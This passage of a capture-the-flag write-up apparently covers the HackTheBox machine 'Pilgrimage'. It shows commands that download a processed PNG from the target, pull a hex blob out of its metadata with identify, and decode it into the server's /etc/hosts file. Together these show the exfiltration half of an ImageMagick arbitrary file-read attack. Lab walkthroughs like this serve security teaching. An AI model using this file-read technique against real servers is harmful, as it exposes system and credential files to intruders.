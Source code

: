     
    
    oxdf@hacky$ wget http://pilgrimage.htb/shrunk/655cd80f631f0.png    
    --2023-11-21 11:17:16--  http://pilgrimage.htb/shrunk/655cd80f631f0.png                                  
    Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219                                                
    Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
    HTTP request sent, awaiting response... 200 OK   
    Length: 7525 (7.3K) [image/png]                     
    Saving to: ‘655cd80f631f0.png’                                                                           
                                                        
    655cd80f631f0.png          100%[=====================================>]   7.35K  --.-KB/s    in 0s      
                                                        
    2023-11-21 11:17:17 (812 MB/s) - ‘655cd80f631f0.png’ saved [7525/7525]
    

`identify -verbose` will show the resulting metadata, where the file is in the
`profile` section:

    
    
    oxdf@hacky$ identify -verbose 655cd80f631f0.png                    
    Image:
      Filename: 655cd80f631f0.png
      Format: PNG (Portable Network Graphics)           
      Mime type: image/png
      Class: DirectClass
    ...[snip]...  
        Raw profile type: 
    
         205
    3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
    6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
    206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
    6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
    6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
    730a666630323a3a32206970362d616c6c726f75746572730a
    ...[snip]...
    

That hex is the file that was read, and can be decoded many ways:

    
    
    oxdf@hacky$ echo "3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a" 
    > | xxd -r -p
    127.0.0.1       localhost
    127.0.1.1       pilgrimage pilgrimage.htb
    
    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    